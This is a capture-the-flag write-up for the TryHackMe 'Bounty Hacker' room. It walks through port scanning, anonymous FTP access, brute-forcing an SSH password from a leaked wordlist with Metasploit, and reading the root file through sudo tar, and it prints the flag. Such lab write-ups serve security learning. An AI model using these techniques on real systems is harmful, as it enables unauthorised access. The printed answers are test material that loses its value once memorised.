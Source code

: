 # Bounty Hacker - TryHackMe

## User

First thing, we should run nmap to show all the open ports:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-04 20:19 IDT
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 98.32% done; ETC: 20:19 (0:00:00 remaining)
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.74% done; ETC: 20:19 (0:00:00 remaining)
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.78% done; ETC: 20:19 (0:00:00 remaining)
Nmap scan report for 10.10.18.146
Host is up (0.13s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.55 seconds
```

We see that there is a web server at port 80, let's go there.
Well, nothing helpful really.

![](2022-05-04-22-20-19.png)

We also have a FTP server on port 21. Let's try to connect using anonymous login:

![](2022-05-04-22-21-38.png)

Success!

We see the following files on the server:

![](2022-05-04-22-22-18.png)

So we might want to download them to our local machine using `get <file>`.

The tasks.txt file doesn't say much but answer the first question on the walkthrough.
The answer is lin, so let's keep that name in mind.

But the locks.txt file is much more suspicous.
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

looks like a list of passwords...
Wait a minute... There was also an ssh on the IP! 

We can use Metasploit to brute force the password for user lin.

![](2022-05-04-22-34-01.png)

And... we got the password:
`RedDr4gonSynd1cat3`

Great! Now let's connect to SSH with the credentials we found:
`ssh lin@10.10.93.45`

We are in now and we got the `user.txt`.

## Root

We are connected as user `lin`, so let's check what we have root privillege on:

![](2022-05-04-22-37-35.png)

So we are allowed to run `tar` with sudo. Intersting.

We want to get the `/root/root.txt` file using `tar` only.
So we can compress the file into a tar file, and then use `tar` command to read the file without extracting it.

```
sudo tar -ztvf root.tar.gz
sudo tar -axf root.tar.gz root/root.txt  -O
```
Bam! We get the root flag:
`THM{80UN7Y_h4cK3r}`